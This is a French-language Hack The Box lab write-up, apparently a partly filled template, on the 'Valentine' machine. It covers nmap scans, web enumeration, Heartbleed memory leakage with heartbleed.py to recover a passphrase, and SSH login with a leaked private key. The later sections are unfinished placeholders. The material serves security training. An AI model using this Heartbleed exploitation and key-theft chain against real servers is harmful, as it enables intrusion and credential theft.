


<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Valentine> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumération

Pour démarrer, lançons mon script d'énumération  :

```bash
mon-nouveau-nmap target.htb

# Résultats dans le répertoire mes_scans/
#  - mes_scans/full_tcp_scan.txt
#  - mes_scans/aggressive_vuln_scan.txt
#  - mes_scans/cms_vuln_scan.txt
#  - mes_scans/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (mes_scans/full_tcp_scan.txt) révèle les ports ouverts suivants :

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:53:27 2025 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN mes_scans/full_tcp_scan.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

# Nmap done at Mon Nov 24 15:53:37 2025 -- 1 IP address (1 host up) scanned in 10.03 seconds

```

### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (mes_scans/aggresive_vuln_scan.txt) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour valentine.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80,443" --script="http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params" --script-timeout=30s -T4 "valentine.htb"

# Nmap 7.95 scan initiated Mon Nov 24 15:53:37 2025 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80,443 --script=http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params --script-timeout=30s -T4 -oN mes_scans/aggressive_vuln_scan_raw.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0092s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413:c4f0:b145:2154:fb54:b2de:c7a9:809d
|_SHA-1: 2303:80da:60e7:bde7:2ba6:76dd:5214:3c3c:6f53:01b1
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_http-server-header: Apache/2.2.22 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 2 hops
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   10.95 ms 10.10.14.1
2   11.00 ms valentine.htb (10.129.232.136)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 24 15:53:53 2025 -- 1 IP address (1 host up) scanned in 16.19 seconds

```


### Scan ciblé CMS

Le scan ciblé CMS (`mes_scans/cms_vuln_scan.txt`) ne met rien de vraiment exploitable en évidence pour ce CTF.

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:53:53 2025 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80,443 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN mes_scans/cms_vuln_scan.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0087s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-headers: 
|   Date: Mon, 24 Nov 2025 14:53:17 GMT
|   Server: Apache/2.2.22 (Ubuntu)
|   X-Powered-By: PHP/5.3.10-1ubuntu3.26
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-php-version: Versions from logo query (less accurate): 5.3.0 - 5.3.29, 5.4.0 - 5.4.45
| Versions from credits query (more accurate): 5.3.9 - 5.3.29
|_Version from header x-powered-by: PHP/5.3.10-1ubuntu3.26
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; jpg: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1; jpg: 1
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-php-version: Versions from logo query (less accurate): 5.3.0 - 5.3.29, 5.4.0 - 5.4.45
| Versions from credits query (more accurate): 5.3.9 - 5.3.29
|_Version from header x-powered-by: PHP/5.3.10-1ubuntu3.26
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-title: Site doesn't have a title (text/html).
| http-headers: 
|   Date: Mon, 24 Nov 2025 14:53:17 GMT
|   Server: Apache/2.2.22 (Ubuntu)
|   X-Powered-By: PHP/5.3.10-1ubuntu3.26
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; jpg: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1; jpg: 1
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 24 15:54:21 2025 -- 1 IP address (1 host up) scanned in 28.05 seconds

```


### Scan UDP rapide

Le scan UDP rapide (`mes_scans/udp_vuln_scan.txt`) ne met rien de vraiment exploitable en évidence pour ce CTF.

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:54:21 2025 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN mes_scans/udp_vuln_scan.txt valentine.htb
Warning: 10.129.232.136 giving up on port because retransmission cap hit (6).
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.010s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Mon Nov 24 15:54:34 2025 -- 1 IP address (1 host up) scanned in 13.25 seconds

```


### Scan des répertoires
Pour la partie découverte de chemins web, j'utilise mon script dédié 

```bash

=== mon-recoweb valentine.htb START ===
Script       : mon-recoweb
Version      : mon-recoweb 2.1.6
Date         : 2025-11-24 16:02:15
Domaine      : valentine.htb
IP           : 10.129.232.136
Mode         : large
Wordlist eff.: /tmp/mon-recoweb_valentine.htb_wl.ps2SlE
Master       : /usr/share/wordlists/dirb/common.txt
Codes        : 200,301,302,403  (strict=1)
Extensions   : .php,.txt,

DIR totaux bruts   : 32
DIR totaux uniques : 16
  - /cgi-bin
  - /decode
  - /decode.php
  - /dev
  - /encode
  - /encode.php
  - /.hta
  - /.htaccess.php
  - /.htaccess.txt
  - /.hta.php
  - /.hta.txt
  - /.htpasswd.php
  - /.htpasswd.txt
  - /index
  - /index.php
  - /server-status

--- Détails par port ---
Port 80 (http)
  whatweb :
    http://valentine.htb:80/ [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.129.232.136], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
  Baseline: code=404 size=290 words=32 (/worjc23h1irnd)
  DIR (16)
    - /cgi-bin/
    - /decode
    - /decode.php
    - /dev
    - /encode
    - /encode.php
    - /.hta
    - /.htaccess.php
    - /.htaccess.txt
    - /.hta.php
    - /.hta.txt
    - /.htpasswd.php
    - /.htpasswd.txt
    - /index
    - /index.php
    - /server-status

Port 443 (https)
  whatweb :
    https://valentine.htb:443/ [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.129.232.136], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
  Baseline: code=404 size=291 words=32 (/ihq4snflblrnd)
  DIR (16)
    - /cgi-bin/
    - /decode
    - /decode.php
    - /dev
    - /encode
    - /encode.php
    - /.hta
    - /.htaccess.php
    - /.htaccess.txt
    - /.hta.php
    - /.hta.txt
    - /.htpasswd.php
    - /.htpasswd.txt
    - /index
    - /index.php
    - /server-status


=== mon-recoweb valentine.htb END ===


```


### Scan des vhosts
Enfin, je teste rapidement la présence de vhosts  avec  

---

## Exploitation – Prise pied (Foothold)

### Analyse de l'image

Le site web exposé par la machine est extrêmement minimaliste : il ne présente qu'une unique page contenant simplement une image, *omg.jpg*, sans aucun lien ni fonctionnalité apparente. Face à une surface d'attaque aussi restreinte, il est logique d'envisager que cette image puisse dissimuler une information utile à la progression. 

Nous commençons donc par la télécharger et l'analyser à l'aide des outils et méthodes décrits dans la recette ****, afin de vérifier si elle ne renferme pas un fichier embarqué, des métadonnées révélatrices ou un indice spécifique.

Après avoir appliqué une série de ces techniques en commençant par **stegseek** , nous ne mettons en évidence aucun élément utile, ce qui confirme que **l'image ne constitue pas un vecteur d'exploitation** dans ce cas.


### Heartbleed

Lors du **scan agressif**, Nmap met en évidence la présence d’une vulnérabilité critique : **[Heartbleed](https://fr.wikipedia.org/wiki/Heartbleed) (littéralement “cœur qui saigne”) – CVE-2014-0160** sur le service TLS. Le nom de la machine — *Valentine* — et l’image d’un **cœur brisé** affichée sur la page web orientent immédiatement vers cette faille célèbre, **découverte le jour de la Saint-Valentin**. Heartbleed touche l’extension TLS Heartbeat et permet à un attaquant de lire arbitrairement des fragments de mémoire du serveur. Tous ces indices convergent et indiquent clairement que l’exploitation de **Heartbleed** constitue le point d’entrée logique pour obtenir le foothold.

- exploitation

[heartbleed.py](https://github.com/injcristianrojas/heartbleed-example/blob/master/heartbleed.py)

```bash
python2 heartbleed.py

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.

```


```bash
python2 heartbleed.py valentine.htb -n 5 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: valentine.htb:443, 5 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: valentine.htb:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 5 of 5
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==....m...E..u}..a}o.K....................-.....3...........B...5D.y,+..Y...d:..k.TlWH.F......+rt.....["k....!.>..N.y..$..hPv~b.....b.'+,M.e .d.. ]}....(... *...3..aF......:DM.h..<..n..N..CM.P=..?.I.$nB...,;b.L....$...?.K/c....3w{.A.\.q;...Jw...,..C.."[|^....l\m..Q..Q....+..I...(.J.....g)...."......?).%.....k.[............nt"_$5M&...RS.Q\..ENK...1.Uc..4$w......|`...4..pI........:..\.....M....$?........%$.......I."n.R..f.......... V....Bj...Z..J....y&.1..~Q..............H....9[...s.[....x{y...[A..*.N.r:.lRL....l..L.4fK....{]!....I......8..xV..S[)..S3D.j5..wH..XD...d.L...I...e...\...J.z........D.4..9.2w..<0~.^..............L.).7....B....U....Y+7{I>'..9h..D1.....O....5(..G..T}.M[.9.;....75...a.........F.k.w&....I{.........3!.eb..:..D.[9.L...y#..D!......S6.E.^.&...f.\.@.O.&..cl....=P...vy.,[d....b........20.....J$......./....w2R.V.m[.@.zA..%*.j.lD}....|wQ/.$.y._)b7..._._.9....oEn..}%.b.q.h@..L...W.S.v.H..p...cjR.LHx.
.H......nuQ]NX....`8......C..s..;..ORt2....W:.....i.Wc..J;....!........E}...qP..;[g...Me.....:6....A.T..M...U.V.:7.i....4E..Yg....v4 .c.....`.5y......./,... ........r9.X.A..[.$x<..........Oq.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==Q!.w..-..yX.....p................+............-.....3........_...1..!..ir..AcXRvxe.E".&gRRT.R....t.~Br9....buY.uzQS.*...UjP+.C..c...Q7.Q.d....ghL.U}]e|..k.Y./.v..E..I....0.Btj..x../...:...S....^iyf./9R...V.......JH+3?aR....8..R#J,.6.T.n.B\..,..-I...P...SH 3.oE`j.&BI..o.E..G.Z.|GX..Y..).D.....1.....1..0.P..\.MX6.3a.d......;...(c._.f.j.u.L..k<.HA..........*{.a%N.dwC..H7...-|9...Hf.KL.J.!9(....4X.."..#..h....+..d.o.h.....`.E.*%.>.!.6.t0c.t.c...a.DT......m.f.!L..p..H...$..l.0.....9.Rj.N...A.^..$..7.Zz_1..g.....;s.;y95...Sd..ft..*...
..5......B..P.
iB.$...8.....".!Ru.7JO.<....h.32:....)....v{....0..3.F9.....i.
r..d.$...)...9.p.i..Vi.....XB^.7..v........:1P. V.f.z"..V$.?.)..34fz=.Z......6..UoBa......].mJ.n$....N
.E...oe.....Q;.#...["....:Nc....-...;.....a.?5..wr....I...?3..A....
"....T."J....1..kN....."F.J..CC|..P{U....\..A..o....W=~.P.F.......D...b.Z..'v.J...4.nA.``ul...Q...Vc.M...mv...G..".3....r..`OG.@....G...,.G`..{...A.O.=..Y.tWHR.],.9'.4.}.....h.*..dO,...2v......j...ly.GY.8...").....[Y.~..<K."kp..V!\....m.....? 
....iN,E~.>^...4.u9.,<m...'..t.65.N^z...=.5.<=... ..<..|.....p.yM 6r.....tD.....O_q.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

q.@....SC[...r....+..H...9...0aGVoeXBlCg==..S.w...7.....?v
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==......7..U.T.%.`t.L.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..y.....*....!.!.I.#.............+............-.....3........=..5@t.:.........a...`e@v.!..n....r....te.-1.S\.8.>si/2..tXKo..\...2 .x"...k..Y...'7...&...c......(.s.p......0YV`IM...wjZ....ukJp((W@.*|F[9pKF...;.e[<VQ...|...CV*..e..?)..Xu..Q/;....&......1Xn....../.\u.X.;\..b.&5"4...f=....EU....#f.....8......c...?.z]..R..CC.'u.|...bi...
......%Oz.mXw.k.D.....c..)H.4.U.....b.U...q[81WD!M.{..E..s...=d...4,..mOA..f...S.bA....z...l..OMyo..D..8...{4.:.B.(.....;.x.....M..$G0..M.....OM.K.8#.....XJ.........k%..BY...03=......cm..c..`+..5.}Y.F...GWS.ji...$\)o.>.'...~.S^..+...].....)......9.P........d.{..>.&1..3G...a....An'..@Z+O.Q."0..J.P....=.r...0cV..+.$..V...sH.[.`t.:|Nz(.6...y.I.55IZt..ZL..IS..f."...Mt..`.{... ...N..u.t:....).........KA..p.n.p*.f..h..c4....'Y
}..aj... ...,.**...c0f..*....t.G.......8LJ.Pe...............m.DMJ.....Y..z.F...h.....7..!....r..\...;k.3n....e
.AR..!.....T=x.|P.$".^w..J(.
6.Q]../.u.(7.....F.P.R.,.M.J...m. ..N.)/J..m.SSp8S.5...t.....$.+].v..!.8>.t...._Iuq.Zf..ebd?Y..r.....k.E....$.W.1.buJ..y..Ej.........V%..
...>..yP...z5...N..0w.......x ....{....a....;...{[....[a...Q.g..>Zie........
]+...9..j &.{.|q/.<


```

- on retrouve à chaque fois 

```text
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg
```

qui décodé Base64 donne **heartbleedbelievethehype** qui pourrait bien être un **mot de passe**.

###  hype_key et connexion



```bash
curl -o notes.txt http://valentine.htb/dev/notes.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   227  100   227    0     0  10972      0 --:--:-- --:--:-- --:--:-- 10809
```

```bash
curl -o hype_key http://valentine.htb/dev/hype_key
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5383  100  5383    0     0   275k      0 --:--:-- --:--:-- --:--:--  276k
```

- décodage de hype_key hex vers hype_key_decoded dans [cyberchef](https://gchq.github.io/CyberChef/)



- création 'copier/coller' dans nano du fichier hype_key_decoded et dans mon cas, copie vers /home/kali/tmp

```bash
cp .hype_key_decoded/home/kali/tmp
```

- modifications des permissions en 600 et connexion en tant que utilisateur `hype` (logique puis que la clé est hype_key, la clé de hype) avec la clé `hype_key_decoded` le mot de passe `heartbleedbelievethehype`

```bash
chmod 600 hype_key_decoded

ssh -i hype_key_decoded hype@valentine.htb
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key 'hype_key_decoded': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

hype@Valentine:~$ 
```


### flag user.txt

```bash
hype@Valentine:~$ ls -l
total 36
drwxr-xr-x 2 hype hype 4096 Jul  9 01:46 Desktop
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Documents
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Downloads
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Music
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Pictures
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Public
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Templates
-rw-rw-r-- 1 hype hype   33 Nov 24 06:46 user.txt
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Videos

hype@Valentine:~$ cat user.txt
ef7xxxxxxxxxxxxxxxxxxxxxxxxxxx24e0

```


## Escalade de privilèges

### Vers utilisateur intermédiaire (si applicable)

- Méthode (sudoers, capabilities, SUID, timers, service vulnérable).
- Indices collectés (configs, clés, cron, journaux).

### Vers root
- Vecteur principal, exploitation, contournements.
- Preuves : `id`, `hostnamectl`, `cat /root/root.txt`.
- Remédiations possibles (leçons sécurité).

---

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`
